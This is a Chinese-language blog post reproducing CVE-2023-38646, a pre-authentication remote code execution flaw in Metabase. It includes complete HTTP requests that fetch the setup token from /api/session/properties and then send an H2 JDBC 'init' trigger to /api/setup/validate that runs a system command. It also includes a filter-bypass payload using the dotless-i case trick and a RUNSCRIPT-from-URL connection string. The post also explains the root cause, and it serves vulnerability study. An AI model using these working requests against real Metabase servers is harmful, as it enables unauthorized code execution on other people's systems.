 ```yaml
---
title: "CVE-2023-38646复现"
slug: "cve-2023-38646"
description: "是谁菜的垫底，原来是我啊"
date: 2023-07-30T22:39:23+08:00
categories: ["CVE"]
series: []
tags: ["Java", "JDBC"]
draft: false
toc: true
---
```


twi上看到了这个洞 而且还是Pre-auth RCE，想赶着热乎的尝试分析一下、结果踩了个坑——官方的patch并没有在github源码中 而是直接包含在了release文件中，也是没有经验，最终独立复现以失败告终

下面是根据其他师傅的文章来复现，嘛 也算不亏 毕竟知识是学到了√

------

## 前置

Metabase是一个开源的Dashboard 可用来展示数据可视化的图表等，有用户系统，项目主要由Clojure编写（基于Lisp 但建立在JVM之上，可以和Java互相调用），分发出的可执行的文件是.jar文件，通过java -jar Metabase.jar启动

debug环境就不多说了，经典的Remote JVM Debug

```bash
java.exe -jar -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 .\lib\metabase.jar
```

如果觉得没有Java的原生类看着别扭 可以单独添加与运行Java版本对应的src.zip到Library中

*有一个很蛋疼的点是Metabase项目较大 同时有很多个线程在执行，debug可能不是很流畅

## 失败尝试

从网传厚码的截图看出利用点是在一个POST JSON请求，我们先找到处理web请求的handle函数`org.eclipse.jetty.server.Server#handle`，发现metabase使用的是jetty作为中间件，后续处理请求大部分代码使用Clojure（如路由匹配、鉴权等核心功能） 其中穿插调用Java代码

回看更新前后的diff，除去Docker tag的bug修复、为发布release的空commit以外，还剩下两个 都与数据库有关，但都是对已有issues的修复，看不出来有什么安全上的考量…… 阴谋论一下：可能关于安全的更新仅在release文件中

*结果还真是

## 正确道路

### H2 JDBC RCE

在Metabase初始化时可以选择配置数据库连接，支持H2数据库

回想之前JDBC的利用技巧，我们可以利用连接语句的`INIT`配置项做到rce

```
jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8081/poc.sql'
```

```
jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER amiz BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '//javascript\njava.lang.Runtime.getRuntime().exec(\"calc.exe\")'
```

那Metabase是否可以做一样的事情呢？

先发送一个普通的连接数据包

![image-20230730172155914](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230730172155914.png)

是用json确定连接时的参数，我们添一条`init` 并把payload放入，db选取Metabase.jar中自带的sample-database.db，虽然是在jar包中、但可以用`zip:`让其自动解压

```json
{
    "is_on_demand": false,
    "is_full_sync": false,
    "is_sample": false,
    "cache_ttl": null,
    "refingerprint": false,
    "auto_run_queries": true,
    "schedules":
    {},
    "details":
    {
        "db": "zip:./lib/metabase.jar!/sample-database.db;MODE=MSSQLServer;",
        "advanced-options": false,
        "ssl": true,
"init": "CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('calc.exe')\u000A$$"
    },
    "name": "an-sec-research-team",
    "engine": "h2"
}
```

又因为这个连接的过程在最初项目setup时也有，用来鉴权的token在`/api/session/properties`中（未授权访问，在setup结束后仍然存在），所以整体的利用过程如下

1. 请求/api/session/properties获取setup-token

```
GET /api/session/properties HTTP/1.1
Host: localhost:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

2. 请求/api/setup/validate，利用H2 JDBC的技巧进行RCE

```
POST /api/setup/validate HTTP/1.1
Host: localhost:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 739

{
    "token": "[setup-token]",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:./lib/metabase.jar!/sample-database.db;MODE=MSSQLServer;",
            "advanced-options": false,
            "ssl": true,
"init": "CREATE TRIGGER amiz BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS '//javascript\njava.lang.Runtime.getRuntime().exec(\"calc.exe\")'"
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

![image-20230730215738593](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230730215738593.png)

### 代码分析

虽然我们是直接利用了`init`，但实际上Metabase是存在过滤的，在metabase.driver.h2/connection-string-set-safe-options中有这样的代码

![image-20230730175056274](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230730175056274.png)

会将`INIT=...`统统删除，那为什么我们还可以利用成功呢？

![image-20230730211247389](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230730211247389.png)

因为实际进入到判断的options只有`db`里的`MODE=MSSQLSERVER`，`init`参数是通过json中单独的键传入

而全部的参数则会在之后不断merge到jdbc-spec参数中

![image-20230730211600349](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230730211600349.png)

jdbc-spec中的所有配置项是不经过安全检查的，直接就到了java.sql.DriverManager#getConnection(java.lang.String, java.util.Properties)，所以导致我们对payload不用任何的处理即可被执行

### 另一种payload

如果我们就是执意要把`init=xxx`放到`db`字符串里，可以怎么绕过呢？p牛的这篇文章-> [Fuzz中的javascript大小写特性](https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html)提到拉丁字母`"ı".toUpperCase() == 'I'`，但connection-string-set-safe-options是使用`lower-case-en`对`db`字符串的参数转小写后匹配，到h2真正执行时会用`readSettingsFromURL`函数进行处理，这里用的时`toUpperEnglish`；我们利用这个大小写差异来构造paylaod

```
{
    "token": "[setup-token]",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:./lib/metabase.jar!/sample-database.db;MODE=MSSQLServer;ınit=CREATE TRIGGER amiz BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('calc.exe')\n$$",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

## 经验教训

1. 有时候开源项目的安全更新并不在commit里…… 也许鸡贼的直接在release中进行patch
2. 漏洞是新的，但核心往往是已有的trick的奇妙组合，基本功还是要很扎实才行

----

{{% spoiler "以下是本文中涉及到的 和我学习时看过的所有文章的链接 每日感谢互联网的丰富资源（" %}}

[从JDBC到h2 database任意命令执行](https://wx.zsxq.com/dweb2/index/topic_detail/185285425815252)

[Metabase 远程代码执行漏洞分析  一种补丁绕过方法  CVE-2023-38646](https://rce.moe/2023/07/28/Metabase-CVE-2023-38646/)

{{% /spoiler %}}